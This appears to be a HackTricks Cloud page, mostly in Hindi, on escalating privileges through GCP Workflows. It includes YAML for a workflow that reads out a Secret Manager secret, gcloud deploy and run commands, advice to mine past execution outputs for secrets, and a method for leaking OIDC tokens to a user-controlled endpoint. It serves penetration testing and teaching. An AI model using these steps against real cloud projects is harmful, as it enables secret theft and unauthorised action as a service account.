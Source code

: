 # GCP - Workflows Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Workflows

बुनियादी जानकारी:

{% content-ref url="../gcp-services/gcp-workflows-enum.md" %}
[gcp-workflows-enum.md](../gcp-services/gcp-workflows-enum.md)
{% endcontent-ref %}

### `workflows.workflows.create`, `iam.serviceAccounts.ActAs`, `workflows.executions.create`, (`workflows.workflows.get`, `workflows.operations.get`)

मेरी जानकारी के अनुसार, यह संभव नहीं है कि एक शेल प्राप्त किया जा सके जिसमें उस मेटाडेटा एंडपॉइंट तक पहुंच हो जिसमें उस वर्कफ़्लो से जुड़े सेवा खाते (SA) के क्रेडेंशियल्स हों। हालाँकि, वर्कफ़्लो के भीतर प्रदर्शन करने के लिए क्रियाएँ जोड़कर SA की अनुमतियों का दुरुपयोग करना संभव है।

कनेक्टर्स की दस्तावेज़ीकरण ढूंढना संभव है। उदाहरण के लिए, यह [**सीक्रेटमैनेजर कनेक्टर का पृष्ठ**](https://cloud.google.com/workflows/docs/reference/googleapis/secretmanager/Overview)** है।** साइड बार में कई अन्य कनेक्टर्स मिल सकते हैं।

और यहाँ एक कनेक्टर का उदाहरण है जो एक रहस्य प्रिंट करता है:
```yaml
main:
params: [input]
steps:
- access_string_secret:
call: googleapis.secretmanager.v1.projects.secrets.versions.accessString
args:
secret_id: secret_name
version: 1
project_id: project-id
result: str_secret
- returnOutput:
return: '${str_secret}'
```
CLI से अपडेट:
```bash
gcloud workflows deploy <workflow-name> \
--service-account=email@SA \
--source=/path/to/config.yaml \
--location us-central1
```
यदि आपको `ERROR: (gcloud.workflows.deploy) FAILED_PRECONDITION: Workflows service agent does not exist` जैसी त्रुटि मिलती है, तो बस **एक मिनट प्रतीक्षा करें और फिर से प्रयास करें**।

यदि आपके पास वेब एक्सेस नहीं है, तो आप निम्नलिखित के साथ एक Workflow को ट्रिगर और उसके निष्पादन को देख सकते हैं:

{% code overflow="wrap" %}
```bash
# Run execution with output
gcloud workflows run <workflow-name> --location us-central1

# Run execution without output
gcloud workflows execute <workflow-name> --location us-central1

# List executions
gcloud workflows executions list <workflow-name>

# Get execution info and output
gcloud workflows executions describe projects/<proj-number>/locations/<location>/workflows/<workflow-name>/executions/<execution-id>
```
{% endcode %}

{% hint style="danger" %}
आप पिछले निष्पादन के आउटपुट की जांच भी कर सकते हैं ताकि संवेदनशील जानकारी की तलाश की जा सके
{% endhint %}

ध्यान दें कि भले ही आपको `PERMISSION_DENIED: Permission 'workflows.operations.get' denied on...` जैसी त्रुटि मिले क्योंकि आपके पास वह अनुमति नहीं है, कार्यप्रवाह उत्पन्न हो चुका है।

### OIDC टोकन लीक (और OAuth?)

[**दस्तावेज़ों के अनुसार**](https://cloud.google.com/workflows/docs/authenticate-from-workflow) यह संभव है कि कार्यप्रवाह चरणों का उपयोग किया जाए जो OAuth या OIDC टोकन के साथ HTTP अनुरोध भेजेंगे। हालाँकि, [Cloud Scheduler](gcp-cloudscheduler-privesc.md) के मामले की तरह, Oauth टोकन के साथ HTTP अनुरोध को होस्ट `.googleapis.com` पर होना चाहिए।

{% hint style="danger" %}
इसलिए, यह **संभव है कि OIDC टोकन को उपयोगकर्ता द्वारा नियंत्रित HTTP एंडपॉइंट को इंगित करके लीक किया जाए** लेकिन **OAuth** टोकन को लीक करने के लिए आपको उस सुरक्षा के लिए **बायपास** की आवश्यकता होगी। हालाँकि, आप अभी भी **SA की ओर से कार्य करने के लिए किसी भी GCP API से संपर्क कर सकते हैं** या तो कनेक्टर्स या OAuth टोकन के साथ HTTP अनुरोधों का उपयोग करके।
{% endhint %}

#### OAuth

{% code overflow="wrap" %}
```yaml
- step_A:
call: http.post
args:
url: https://compute.googleapis.com/compute/v1/projects/myproject1234/zones/us-central1-b/instances/myvm001/stop
auth:
type: OAuth2
scopes: OAUTH_SCOPE
```
{% endcode %}

#### OIDC
```yaml
- step_A:
call: http.get
args:
url: https://us-central1-project.cloudfunctions.net/functionA
query:
firstNumber: 4
secondNumber: 6
operation: sum
auth:
type: OIDC
audience: OIDC_AUDIENCE
```
### `workflows.workflows.update` ...

इस अनुमति के साथ `workflows.workflows.create` के बजाय, एक पहले से मौजूद वर्कफ़्लो को अपडेट करना और समान हमले करना संभव है।

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

